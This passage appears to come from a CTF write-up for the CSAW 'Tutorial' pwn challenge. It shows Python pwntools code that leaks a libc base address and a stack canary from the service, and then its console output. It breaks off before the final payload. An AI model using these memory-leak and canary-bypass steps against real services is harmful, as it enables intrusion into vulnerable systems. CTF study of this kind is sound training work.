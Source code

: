 		#HOST = "pwn.chal.csaw.io"
		#PORT = 8002
		
		r = remote(HOST,PORT)
		payload = "A"*300
		
		#Dump output from service
		for x in xrange(0,4):
			print r.recvline()
		
		#Extract/strip/calculate the libc starting address
		r.sendline("1")	
		reference = r.recvline()
		libcadr = int(reference.split(":")[1].strip('\n'),0)-456800
		print hex(libcadr)
		
		#Get the cookie
		r.sendline("2")
		print r.recvline()
		for x in xrange(0,4):
			print r.recvline()
		r.sendline(payload)
		
		#Spacing
		r.recvline()
		
		#Mem dump of cookie
		memdump = r.recvline()
		
		#Strip the cookie out
		memdump = memdump.rstrip("-Tutorial-\n")
		cookie = struct.unpack("<Q",memdump[len(memdump)-12:len(memdump)-4])
		print hex(cookie[0])
		
		#Spacing
		for x in xrange(0,3):
			print r.recvline()
		
		cookie = struct.pack("<Q",cookie[0])
	
	main()

Running this outputs

	$ python s2.py 
	PORT:54321
	[+] Opening connection to 192.168.56.102 on port 54321: Done
	-Tutorial-
	1.Manual
	2.Practice
	3.Quit
	0x7f56357e4000
	-Tutorial-
	1.Manual
	2.Practice
	3.Quit
	>Time to test your exploit...
	0x55d60df6b3385400
	[*] Closed connection to 192.168.56.102 port 54321
